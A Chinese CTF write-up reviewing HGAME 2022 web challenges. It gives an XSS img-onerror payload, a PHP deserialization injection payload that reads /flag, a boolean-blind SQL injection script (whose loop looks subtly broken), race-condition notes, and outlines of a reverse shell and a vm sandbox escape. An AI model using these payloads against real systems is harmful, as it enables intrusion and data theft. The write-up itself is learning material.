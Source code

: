 ```yaml
---
title: HGAME 2022 复盘 writeup
date: 2022-02-19 23:1:00
tags: ctf
---
```

# HGAME 2022 复盘 writeup by ek1ng


## 序

四周的HGAME结束后又回去看了看没做出的一些题和官方WP还有一些师傅们的wp，发现有些题解法很多，并且有些题虽然我打出了flag但是其实不是特别了解漏洞，也是再复盘一下这些题

## WEB

### 蛛蛛...嘿嘿♥我的蛛蛛（爬虫）

这是一个爬虫题目，题目中的蛛蛛是提示爬虫，这点是当初没发现的，当初是写了这样一个脚本，但是事实上关卡数是未知的，这种自动点击的方式，点到多少还是要看运气，虽然也可以print一下，不过总之不是个很好的方法，然后也是写个爬虫再做一遍

##### 自动化点击脚本

```python
from time import sleep
from selenium import webdriver

# 打开浏览器
wd = webdriver.Chrome(r'chromedriver.exe')
wd.get('https://hgame-spider.vidar.club/915929bc23')
# 让程序停1s保证打开页面后再自动点击
sleep(1)

# 自动点击
for i in range(100):
    # 点击href值不为空的按钮
    for link in wd.find_elements_by_xpath("//*[@href]"):
        try:
            if link.get_attribute('href') != '':
                wd.get(link.get_attribute('href'))
        except:
            pass

```

##### 爬虫

```python
import requests

s = 'https://hgame-spider.vidar.club/915929bc23'


def find(x):
    res = requests.get(s + x)
    print(res.headers)
    print(s + x)
    print(res.text)
    xt = [x for x in res.text.split("\"") if 'key' in x]
    for i in xt:
        find(i)
    if "hgame" in res.text:
        print(res.text)
        return


find("")

```

### At0m的留言板（XSS）

XSS漏洞的利用点在img上，代码没有对img做过滤。

先利用img标签的onerror属性，在content中输出窗体对象的所有属性

```html
<img src=1 onerror="document.getElementsByClassName('content')[0].innerText =
Object.keys(window)">
```

![image-20220219154358680](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220219154358680.png)

然后发现flag的名称是F149_is_Here，在content中输出窗体对象的子属性F149_is_Here的值，拿到flag

```html
<img src=1 onerror="document.getElementsByClassName('content')[0].innerText =
F149_is_Here">
```

![image-20220219154406494](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220219154406494.png)

### 一本单词书（反序列化）

在如何触发反序列化这一点其实当初做题没有特别清楚，因为hint中给出了一个例题，然后依葫芦画瓢得打出了flag，后面也是忙着做后面得题就没机会思考一下，现在回过头再看一下如何通过输入特定数据触发反序列化

先来看看我当初参照hint给出例题的payload

```
{"aaa|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}aa":"aaaa"}
```

encode 函数将键值型数据编码为 键|serialize(值) 的形式，如 {"a": "1","b": "s"} 编码为 a|s:1:"1";b|s:1:"s" 。

decode 函数会调用 unserialize 函数将编码后的数据恢复，具体来说就是 | 后面到下一个键名之间的内容 换被传递给 unserialize 函数。 

当键中包含 | 符号时，就可以注入任意的反序列化后的数据。

这里我们的键是`aaa|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}aa`值是`aaaa`，然后encode是给值序列化，并且用|隔开，decode是把|后面的反序列化回去，然后我们传入的键是做了手脚的，后面跟了|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}aa，在decode反序列化的过程中，会把|后面的都反序列化，那这样的话，Evil类就被反序列化了，然后为什么还要跟个aa，是因为他是键值对嘛，那我们这里后端decode的时候会以为是aaa为键，|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}反序列化后的对象为值，然后反序列化后Evil对象触发__wakeup这个魔法方法，把flag带出来，然后为什么后面要跟个aa，不跟aa也是可以打出flag，然后跟个aa应该是和后面值aaaa配对，然后|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}反序列化后的对象和/flag的值会覆盖掉这组键值对，然后所以这个aa和aaaa是看不到的。

然后来看看出题人给的payload

```
{"a|O:4:\"Evil\":2:{s:4:\"file\";s:5:\"/flag\";s:4:\"flag\";N;};b":2}

```

也是一样的道理

### Vidar shop demo（条件竞争）

我当初做题的方法和预期解不太一样，然后也是在校外群看到很多师傅都有各种解法，于是也一一尝试一下看看

第一种解法是官网WP中给出的，连续发送对不同订单的支付请求，只扣一次余额，因为后端的逻辑是查询出用户余额，然后创建订单，最后更新用户余额，后面那个订单只要赶在余额更新前查询余额，那么就会只扣一次钱了

第二种解法是取消未支付订单，这周做法就是后端逻辑问题了，并不是条件竞争，退款未支付商品也是可以成功的

第三种解法校外群内有师傅说可以修改未支付订单号，但是余额的扣除好像是按照商品判断的，你修改成多少钱的商品就是扣多少余额，我按照他的解法是无法复现的，不知道是什么原因。。。。

第四种是爆破账号密码，唔在登录上确实有些问题，一开始出题人还没删测试账号，我直接登进去了，后来问了问后就说这种解法不太行，痛失1血（，后面题目改成了账号密码至少10位，爆破就稍微会难一些，但是还是可行的一种方法，不过爆破账号的前提也是别人打出一个余额超过10000的账号hhh，讲道理也是不太对的方法

### LoginMe （sql布尔盲注）

参考了其他选手的python脚本，我当初是用的sqlmap出的，因为没加什么过滤好像，sqlmap可以直接出，看了看其他人的wp很多也是sqlmap的，然后但是我按照别人的wp的脚本好像无法复现，不知道为啥，反正布尔盲注确实不太懂，针对这个知识学了一下

````python
```
import json
import requests
host = '2aaa006c94.login.summ3r.top:60067'
md5 = ''
data = {"username": "test') and substr(password,1,1)='a' --+", "password": "test"}
for i in range(1,33):
    for j in "0123456789abcdefABCDEF":
        data["username"] = "admin') and substr(password,{},1)='{}' --+".format(i,j)
        r = requests.post('http://' + host + '/login', json=data).text
        info = json.loads(r)['msg']
        print(info)
        if info == 'success!':
            md5 += j
        print(md5)
        break
````



首先是什么是布尔盲注，就是通过构造逻辑判断来得到信息，因为解码只返回true or false，没有直接回显信息，没办法直接union注入爆库名表名字段名这样。

这里就是知道账号是admin，所以就是爆密码，然后一位一位去跑，把这个密码爆出了，大概是这样的流程，然后如果说页面不反回true or false的题型就是需要时间盲注了，需要让逻辑表达式正确时延时返回，这样就可以做到true or false的判断

### SecurityCenter（SSTI）

这个题是我按照预期解做出的，然后看到别人的wp中有人是弹shell然后连接服务器读取的文件，也尝试一下看看

好吧环境好像关了，那只能看看wp学习一下了

主要就是没过滤eval，所以可以想办法弹shell

### Markdown Online（vm沙箱逃逸）

被绕登录的trick卡住了，真是眩晕

传入数组对象，16个元素的数组或者json再套一层，让.length判断正确但是touppercase报错就可以绕过登录

后面就是markdown中没有对html标签过滤，所以说可以传script标签，然后找vm沙箱逃逸的payload，绕过waf过滤就可以get flag了，vm沙箱逃逸主要是因为vm并不是完全安全的，用户输入直接传入就会造成沙箱逃逸，然后实现RCE，可以cat /flag



